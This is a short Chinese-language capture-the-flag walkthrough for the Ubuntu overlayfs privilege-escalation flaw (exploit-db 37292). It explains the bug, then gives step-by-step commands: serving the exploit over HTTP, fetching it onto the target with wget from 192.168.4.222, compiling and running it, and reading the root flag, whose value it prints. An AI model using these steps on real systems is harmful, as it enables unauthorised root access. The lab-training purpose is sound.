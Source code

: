 Ubuntu Linux内核的overlayfs文件系统实现中存在一个权限检查漏洞，本地普通用户可以获取管理员权限。此漏洞影响所有目前官方支持的Ubuntu Linux版本，目前已经发布攻击代码，建议受影响用户尽快进行升级。

此漏洞源于overlayfs文件系统在上层文件系统目录中创建新文件时没有正确检查文件权限。它只检查了被修改文件的属主是否有权限在上层文件系统目录写入，导致当从底层文件系统目录中拷贝一个文件到上层文件系统目录时，文件属性也随同拷贝过去。如果Linux内核设置了CONFIG_USER_NS=y和FS_USERNS_MOUNT标志，将允许一个普通用户在低权限用户命名空间中mout一个overlayfs文件系统。本地普通用户可以利用该漏洞在敏感系统目录中创建新文件或读取敏感文件内容，从而提升到管理员权限。

---------------------------------------------------------------------------

kali搜索下：
searchsploit 37292        ---搜索kali本地的exp库中37292攻击脚本信息
cp /usr/share/exploitdb/exploits/linux/local/37292.c /root/桌面/   ---目录自行修改

这个靶场在枚举信息知道：
无法进行GCC编译，需要改下脚本为cc
gedit 37292.c       ---文本打开 
第143行将gcc改为cc    ---编写下 

然后在本目录下开启http服务：python -m SimpleHTTPServer 8081

wget http://192.168.4.222:8081/37292.c   ---wget下载http服务下的文件

成功下载后执行cc编译：
cc -o exp 37292.c     ---C语言的CC代码编译点c文件
chmod +x exp          ---编译成可执行文件，并赋权
./exp                 ---点杠执行

id                   ---查看目前权限
cat /root/.flag.txt  ---读取root下的flag信息
568628e0d993b1973adc718237da6e93














